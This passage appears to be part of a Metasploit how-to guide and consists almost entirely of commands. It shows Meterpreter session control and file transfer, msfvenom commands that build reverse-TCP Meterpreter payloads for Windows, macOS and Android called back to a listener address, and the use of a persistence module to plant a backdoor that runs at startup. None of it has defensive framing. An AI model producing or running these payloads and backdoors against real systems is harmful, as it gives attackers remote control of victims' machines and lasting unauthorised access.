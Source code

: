 ### Example 5: Meterpreter Session Management
```bash
# After gaining access, you'll get a meterpreter session

# List sessions (if multiple sessions exist)
meterpreter > sessions -l         # List all sessions

# Switch to specific session (use ID from above command)
meterpreter > sessions -i 1       # Switch to session 1

# Get system information
meterpreter > sysinfo             # System information
meterpreter > getuid              # Get current user info

# Upload and download files
meterpreter > upload /path/to/local/file /remote/path/
meterpreter > download /remote/path/ /local/path/

# Execute commands
meterpreter > execute -f cmd.exe -i  # Run command in interactive mode
```

## Advanced Techniques

### Creating Custom Payloads
```bash
# Generate payloads using msfvenom (for creating reverse shells)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > malicious.exe

# For Mac targets
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4445 -f macho > malicious.macho

# For Android targets (if you have access to an Android device)
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4446 R > malicious.apk
```

### Setting Up Persistent Backdoors
```bash
# After gaining meterpreter access, use persistence module

meterpreter > background          # Send session to background

# Use the persistence module for Windows targets
msf > use exploit/windows/local/persistence

# Configure and run persistent backdoor
msf > set SESSION 1               # Session number from list above
msf > set AUTO_RUN true           # Automatically execute on startup
msf > exploit                     # Install persistence mechanism
```
